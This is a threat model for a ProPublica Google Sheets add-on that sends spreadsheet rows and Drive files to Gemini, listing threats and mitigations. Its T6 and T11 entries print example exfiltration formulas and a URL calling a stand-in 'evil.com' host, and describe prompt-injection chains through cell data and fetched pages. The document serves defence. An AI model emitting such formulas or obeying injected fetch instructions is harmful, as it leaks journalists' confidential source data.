


# SSI Toolkit — Threat Model

| Field | Value |
| --- | --- |
| Project | SSI Toolkit (Google Apps Script add-on for Google Sheets) |
| Description | ProPublica journalism tool providing Drive file listing, OCR text extraction, reproducible row sampling, and batch Gemini AI inference |
| Version | 1.0 (first draft) |
| Last updated | 2026-06-16 |

---

## System Architecture Diagrams

### Runtime Data Flows

### CI / CD Pipeline

---

## 1. What Are We Working On?

### Assumptions and Scope

**In scope:**
- Apps Script server code and its interactions with GAS globals (SpreadsheetApp, DriveApp, UrlFetchApp, PropertiesService)
- Client-side sidebar (HtmlService iframe) and the `google.script.run` RPC boundary
- Gemini API integration — both inline base64 and Files API upload paths
- Drive, Sheets, and Docs operations performed by the add-on
- Script Properties as an API key store
- OAuth consent screen and declared scopes
- CI/CD pipeline (GitHub Actions + clasp deployment)

**Out of scope:**
- Google's internal infrastructure security (Apps Script runtime, Workspace backend, GCP)
- Security of the user's Google account or device
- Gemini API backend data handling beyond what is publicly documented
- Network-layer threats (TLS, DNS) — handled by Google's infrastructure

### Trust Boundaries

| Boundary | Description |
| --- | --- |
| User's Machine ↔ Apps Script Runtime | `google.script.run` RPC; structured typed calls, no shell access |
| Apps Script Runtime ↔ Google Workspace | OAuth-gated; enforced by declared scopes in `appsscript.json` |
| Apps Script Runtime ↔ Google Cloud / AI Platform | API key-gated; key stored in Script Properties |
| Public Internet ↔ GitHub | PR submission; anyone can propose code changes |
| GitHub ↔ Apps Script Runtime | clasp deployment; requires Google account with project editor access |

### Components

| ID | Component | Description |
| --- | --- | --- |
| C1 | Sidebar UI | Client-side TypeScript running in a HtmlService browser iframe; the user-facing panel |
| C2 | Apps Script Server | Server-side orchestrator (`index.ts`); only component that touches GAS globals |
| C3 | Script Properties | Key-value store scoped to the script project; holds `GEMINI_API_KEY` |
| C4 | Google OAuth | Enforces add-on consent and scope grants on first use |
| C5 | Google Sheets | Spreadsheet being operated on; source of row data and output destination |
| C6 | Google Drive | Source of file listings and file content; also used for OCR temp doc creation/deletion |
| C7 | Gemini Files API | Accepts file blob uploads; returns a stable URI; caches files for 48 hours |
| C8 | Gemini Inference API | Accepts prompts and file references; returns AI-generated text |
| C9 | GitHub | Public source code repository |
| C10 | GitHub Actions | CI pipeline; runs lint, typecheck, and tests on push and PRs to `main` and `develop` |
| C11 | clasp | Deployment tool; pushes compiled bundle to the Apps Script project via the Apps Script API |

### Assets

| ID | Asset | Description |
| --- | --- | --- |
| A1 | `GEMINI_API_KEY` | API key granting access to both Gemini APIs; stored in Script Properties |
| A2 | Spreadsheet row data | User's research data in the active spreadsheet; read by all four tools |
| A3 | Drive file content | Documents, PDFs, and images fetched from Drive; sent to Gemini for inference or OCR |
| A4 | Gemini AI responses | Model-generated text written back to the output column in the spreadsheet |
| A5 | OAuth tokens | Managed by Google; grant the add-on access to the user's Workspace data |
| A6 | Source code | Public GitHub repo; a malicious merged change could reach production via a developer deploy |

### Data Flows

| ID | Flow | Description |
| --- | --- | --- |
| F1 | User → Sheets → Server | User opens spreadsheet; `onOpen` trigger fires and renders the add-on menu |
| F2 | Server → Sidebar UI | Server calls `HtmlService` to serve `Sidebar.html` as an iframe |
| F3 | Sidebar UI ↔ Server | All sidebar→server calls use `google.script.run` RPC with typed structured data |
| F4 | User → OAuth | User grants add-on scopes on first use via Google's consent screen |
| F5 | OAuth → Server | Google enforces granted scopes on all subsequent GAS API calls |
| F6 | Server ↔ Sheets | Server reads row data and column headers; writes AI results back to the output column |
| F7 | Server ↔ Drive | Server lists folders recursively; reads file blobs; creates and deletes OCR temp docs |
| F8 | Server → Script Properties | Server reads `GEMINI_API_KEY` before each Gemini API call |
| F9 | Server → Gemini Files API | Server uploads Drive file blobs using resumable upload protocol |
| F10 | Gemini Files API → Server | Files API returns a stable URI; file is cached on GCP for 48 hours |
| F11 | Server → Gemini Inference API | Server sends prompt, system instruction, and file URI or base64 data |
| F12 | Gemini Inference API → Server | Model returns generated text; server writes it to the spreadsheet |
| F13 | Contributor → GitHub | Public contributor submits a pull request |
| F14 | GitHub → GitHub Actions | CI pipeline triggers on push and PR events |
| F15 | Developer → clasp → Server | Credentialed developer pulls code, builds, and pushes bundle to Apps Script |

### External Dependencies

| ID | Dependency | Notes |
| --- | --- | --- |
| D1 | Google Apps Script platform | Runtime environment; no SLA for add-on availability beyond Google's standard terms |
| D2 | Gemini API (Google AI) | External inference endpoint; data handling governed by Google AI terms of service |
| D3 | GitHub / GitHub Actions | Source hosting and CI; public repo means code and CI logs are publicly visible |
| D4 | clasp CLI | Open-source deploy tool maintained by Google; pinned via `package.json` |

### Stakeholders

| ID | Stakeholder | Interests / Potential Harm |
| --- | --- | --- |
| S1 | Journalists / Users | Confidentiality of research data and Drive files sent to Gemini; accuracy of AI outputs written to spreadsheet |
| S2 | ProPublica (organization) | Reputation, data security posture, compliance with internal data policies |
| S3 | Editors / Data team | Trust in AI-generated content written to shared spreadsheets |
| S4 | Security team | Visibility into what data leaves the organization's Google Workspace |

---

## 2. What Can Go Wrong?

| ID | Threat | Affected elements | Description |
| --- | --- | --- | --- |
| T1 | API key exfiltration | A1, C3 | `GEMINI_API_KEY` stored in Script Properties could be read by anyone with Apps Script project editor access, or by a malicious add-on if script project permissions are misconfigured |
| T2 | Sensitive data sent to external AI endpoint | A2, A3, C8, S1 | Spreadsheet row data and Drive file content — potentially including PII or confidential source material — is sent to the Gemini Inference API, which is outside the organization's Google Workspace boundary |
| T3 | File content persists on GCP for 48 hours | A3, C7 | Files uploaded via the Gemini Files API are cached on Google Cloud for 48 hours. The file URI is not guessable, but the data is held outside the user's Drive for that window |
| T4 | Supply chain attack via public PR | A6, C2, C9, C10, C11 | A malicious contributor submits a PR that passes CI (lint/typecheck/tests cannot detect malicious intent). A credentialed developer merges and deploys it without catching the harmful logic; the code then runs inside users' spreadsheets. A variant of this attack targets `appsscript.json` directly: expanding the declared OAuth scopes causes every user to be re-prompted on their next interaction, likely granting broader permissions without scrutiny |
| T5 | Overly broad Drive read access | A2, A3, C4, C6 | The `drive.readonly` scope grants read access to the user's entire Drive. A compromised add-on (e.g., via T4) could exfiltrate files beyond what the user intended to share |
| T6 | Formula injection via AI response | A4, C5 | AI-generated text written to spreadsheet cells could contain spreadsheet formulas (e.g., `=IMPORTDATA(...)`) that execute automatically when the cell is rendered, potentially exfiltrating data. The primary exfiltration vector is Sheets web-fetch functions (IMAGE, IMPORTDATA, IMPORTXML, IMPORTHTML, IMPORTRANGE, IMPORTFEED), which make outbound HTTP requests that can encode adjacent cell values in the URL. These functions can appear at any nesting depth inside a formula (e.g., `=IF(1=1,IMAGE("evil.com/?d="&A1),0)`). A chained variant (T9→T6): externally sourced data in the spreadsheet (scraped content, third-party datasets, interview responses) contains a malicious base URL in a cell, and prompt injection nudges the AI into outputting a formula that references that cell — e.g. `=IMPORTDATA(A1&B2)`. In this case the evil URL never appears in the AI response itself; it is assembled at render time from data already in the sheet. Note: user-authored formulas (e.g. a journalist's own `=IMPORTDATA()` calls elsewhere in the sheet) are outside this add-on's threat model — our sanitization only covers values written by the add-on via `setValue()` |
| T7 | Developer account compromise | C2, C11 | If a Google account with project editor access is compromised (e.g., phishing, credential reuse), an attacker could deploy arbitrary code to the production Apps Script project |
| T8 | RPC boundary abuse | C1, C2 | A client-side script (e.g., injected via a compromised dependency) calls `google.script.run` with malicious arguments. The server processes them without sufficient validation |
| T9 | Prompt injection via spreadsheet data | A2, C2, C8, S1 | Cell values read from the spreadsheet are passed verbatim into the Gemini prompt. If data originates from an external source (scraped content, third-party datasets, interview responses), a malicious cell value could hijack model behavior — distinct from T6, which targets the spreadsheet renderer rather than the model |
| T10 | npm build dependency compromise | A6, C2, C11 | A compromised npm package in the build toolchain (Rollup, ts-jest, etc.) could inject malicious code into the compiled bundle at build time, before any PR review. The attack surface is `node_modules`, not the repo |
| T11 | url_context tool as uncontrolled egress path | A2, C8, S1 | When the `url_context` Gemini grounding tool is enabled, Gemini fetches URLs it encounters during inference — including URLs already present in spreadsheet data, not just URLs the user deliberately provides. Two specific vectors: (1) **Direct fetch**: any URL in a prompt column cell (from scraped data, vendor exports, interview notes, etc.) is retrieved by Gemini; the attacker's server logs confirm the fetch and can observe timing and request metadata. (2) **Response injection**: the attacker's URL returns a page containing prompt injection instructions that tell Gemini to make a follow-up fetch with cell data appended as query parameters — e.g. `www.evil.com/collect?name=[journalist source]&org=[org name]` — exfiltrating adjacent cell values with no formula ever written to the sheet. This chain (T9→T11) bypasses `sanitizeForCell` entirely because exfiltration happens at inference time, not via cell output |
| T12 | Stackdriver logging captures sensitive data | A2, A3, C2 | `appsscript.json` routes exceptions to Stackdriver. If error handling includes cell values or file names in exception messages, sensitive journalist data lands in logs accessible to anyone with GCP project access |
| T13 | Drive recursive scan resource exhaustion | C2, C6 | Import Drive Links recursively scans folders via the Drive Advanced Service. A deeply nested or very large folder tree could hit Apps Script's 6-minute execution timeout or memory ceiling, terminating the user's session mid-run |
| T14 | GCP cost explosion via API key abuse or large batch runs | A1, C3, C7, C8, S2 | Two vectors: (1) an attacker who obtains `GEMINI_API_KEY` (via T1 or other means) can run unlimited inference and Files API uploads against the GCP project's billing account with no application-layer backstop; (2) a legitimate user running batch inference over a very large row range or uploading many large files can generate significant unexpected costs without any in-app cost estimate or confirmation step |
| T15 | OCR temp doc data residue | A3, C6 | The Extract Text OCR flow creates a temporary Google Doc, reads its content, then deletes it. If execution is interrupted between creation and deletion (e.g. Apps Script timeout, memory ceiling, unhandled exception), the temp Doc persists in the user's Drive containing the OCR'd text of potentially sensitive source material with no automatic cleanup or recovery path |

---

## 3. What Are We Going to Do About It?

| Threat | Response ID | Strategy | Description |
| --- | --- | --- | --- |
| T1 | R1 | Reduce | Limit Apps Script project editor access to the minimum required team members; audit access periodically |
| T1 | R2 | Reduce | Document key rotation procedure; rotate immediately if compromise is suspected |
| T2 | R3 | Accept + document | Sending data to Gemini is core product functionality; document clearly in user-facing guidance what data is transmitted and advise users not to include unnecessary PII in prompt columns |
| T3 | R4 | Accept | Files API 48h TTL is not configurable; file URIs are not guessable; risk is accepted given Google's infrastructure controls |
| T4 | R5 | Reduce | Enforce required PR reviews via GitHub branch protection on `main` and `develop`; document explicitly that CI passing is not a security gate |
| T4 | R6 | Reduce | Limit the number of team members with clasp deploy access to reduce the window of opportunity for an inadvertent deploy of a malicious change |
| T5 | R7 | Accept | `drive.readonly` is the minimum scope that supports recursive folder scanning — a core feature. The scope was already reduced from the broader `drive` scope. Accept residual risk; revisit if a narrower API path becomes available |
| T6 | R8 | Reduce | Implement `sanitizeForCell()` in `src/server/utils.ts` and wire it into every `setValue()` call on the AI output column. Two-tier check: (1) if the value starts with `=`, `+`, or `-` and contains any web-fetch function call (IMAGE, IMPORTDATA, IMPORTXML, IMPORTHTML, IMPORTRANGE, IMPORTFEED) anywhere in the formula — including nested positions — replace with an explicit error string rather than writing to the sheet; (2) if the value starts with a formula trigger but contains no web-fetch function, prefix with `'` so Sheets renders it as a literal string. The chained T9→T6 variant (AI references a cell containing a malicious URL) is caught by the same check because the formula string still contains the web-fetch function name. |
| T7 | R9 | Reduce | Require 2-factor authentication on all Google accounts with project editor access |
| T8 | R10 | Reduce | Maintain the current typed RPC pattern — server functions accept only structured `RunConfig`-shaped arguments; add server-side validation at the `google.script.run` boundary for any inputs that influence Drive or Gemini API calls |
| T9 | R11 | Accept + document | Prompt injection is a fundamental LLM challenge with no complete technical mitigation at the application layer. Document the risk in user-facing guidance; advise users to treat AI output critically when prompt columns contain externally sourced data. Consider a hardened system prompt that instructs the model to ignore injected instructions |
| T10 | R12 | Reduce | Run `npm audit` in CI and fail on high/critical vulnerabilities; enforce `npm ci` (already in place) to ensure the lockfile governs installs; periodically review and update dependencies |
| T11 | R13 | Reduce | Surface a warning in the sidebar when `url_context` is enabled that is specific about both vectors: (1) URLs already present in your dataset — from scraped sources, vendor exports, or imported CSVs — will be fetched by Gemini during inference, not just URLs you type in the prompt; (2) an attacker who controls one of those URLs can return a page with instructions that cause Gemini to make additional requests with cell data appended as query parameters. Warning copy should advise users to only enable `url_context` on datasets they trust and to treat any column containing externally sourced data as a potential injection point. Post-MVP: implement a pre-inference URL scan that detects URLs in prompt column cells and alerts the user before the run proceeds (deferred — see Open Items) |
| T12 | R14 | Reduce | Audit exception handling in `index.ts` to ensure cell values, file names, and API responses are not included in thrown error messages; log structured codes rather than raw data |
| T13 | R15 | Accept | GAS execution limits are a platform constraint. Document the limitation in user-facing guidance; consider adding a pre-scan folder size estimate with a warning if the tree exceeds a safe threshold |
| T14 | R16 | Reduce | Configure GCP budget alerts on the project with email notification thresholds (e.g. 50%, 90%, 100% of monthly budget); enable a hard spend cap if the GCP billing account supports it |
| T14 | R17 | Reduce | Set per-API-key quotas in Google Cloud Console to cap daily request volume and token usage for `GEMINI_API_KEY`; this limits blast radius for both key abuse and accidental overuse |
| T14 | R18 | Reduce | Surface the row count to the user before confirming a large batch run and add a configurable warning threshold (e.g. >500 rows); this gives users a chance to scope down before generating a large number of API calls |
| T15 | R19 | Reduce | Three-part mitigation: (1) wrap temp doc deletion in a `finally` block so cleanup runs even on exception; (2) if deletion fails, surface an explicit alert to the user in the sidebar identifying the orphaned doc by name so they can delete it from Drive themselves; (3) name all temp docs with a recognizable prefix (e.g. `[SSI-TEMP]`) so orphaned docs are identifiable in Drive even if the alert is missed |

---

## 4. Did We Do a Good Enough Job?

### Review Status

First draft — not yet formally reviewed by the security team.

### Open Items

| Priority | Status | Linear | Item | Description |
| --- | --- | --- | --- | --- |
| High | Open | — | Fix T6 — formula injection | Implement `sanitizeForCell()` in `src/server/utils.ts`: reject web-fetch formulas (anywhere in formula body, including nested) with an error string; prefix other formula-triggered values with `'`; wire into all `setValue()` calls on the AI output column in `index.ts` (R8) |
| Medium | Open | — | Branch protection audit | Confirm required-review rules are active on `main` and `develop` (R5) |
| Medium | Open | — | Access audit | Review and document who has Apps Script project editor access (R1) |
| Medium | Open | — | Stackdriver log audit | Review exception handling in `index.ts` to confirm no cell values or file names reach Stackdriver logs (R14) |
| Medium | Open | — | Add `npm audit` to CI | Fail CI on high/critical npm vulnerabilities (R12) |
| Medium | Open | — | Fix T15 — OCR temp doc cleanup | Wrap deletion in `finally`, alert user on cleanup failure, prefix temp doc names with `[SSI-TEMP]` (R19) |
| Low | Open | — | 2FA verification | Confirm 2FA is enforced on all accounts with deploy access (R9) |
| Medium | Open | — | T11 sidebar warning — specify both url_context vectors | Update the `url_context` warning copy to explicitly state that URLs already in dataset cells will be fetched, and that attacker-controlled URLs can inject instructions via their response (R13) |
| Low | Open | — | Post-MVP: pre-inference URL scan | Before a `url_context` run, scan prompt column cells for URLs and surface an alert listing them so the user can confirm before proceeding (R13, deferred) |
| Low | Open | — | User-facing data notice | Write guidance for journalists covering data sent to Gemini, prompt injection risk, and `url_context` egress (R3, R11, R13) |
| Low | Open | — | GCP budget alerts and quota caps | Configure spend alerts and per-key daily quotas in Google Cloud Console (R16, R17) |

### Planned Threat Models

Two additional threat models are scoped for future sessions:

| Document | Perspective | Focus |
| --- | --- | --- |
| [`ssi-toolkit-threat-model-journalist.md`](ssi-toolkit-threat-model-journalist.md) | Journalist / user | Threats to the reporting process — source exposure via AI inference, data leakage in workflow, AI-generated errors affecting published work |
| `ssi-toolkit-threat-model-source.md` | Source | Threats to a source's identity — information that could identify a source via AI inference, Drive file metadata, prompt logs, Gemini data retention |

These cover the *human* security surface. The current document covers the *tool's* security surface.

### Notes

This is a living document. Threats and mitigations should be revisited when:

- New tools or data flows are added to the add-on
- The Gemini API integration changes (new endpoints, new data types)
- The deployment pipeline changes
- An incident occurs

---

## References

- [AI in Excel and Google Sheets: Prompt Injection and Data Exfiltration Risks](https://www.promptarmor.com/resources/ai-in-excel-and-google-sheets-prompt-injection-and-data-exfiltration-risks) — PromptArmor. Covers the T6/T9 attack chain: how AI-generated spreadsheet formulas can be used to exfiltrate data via web-fetch functions, and how prompt injection can be used to trigger the behavior.
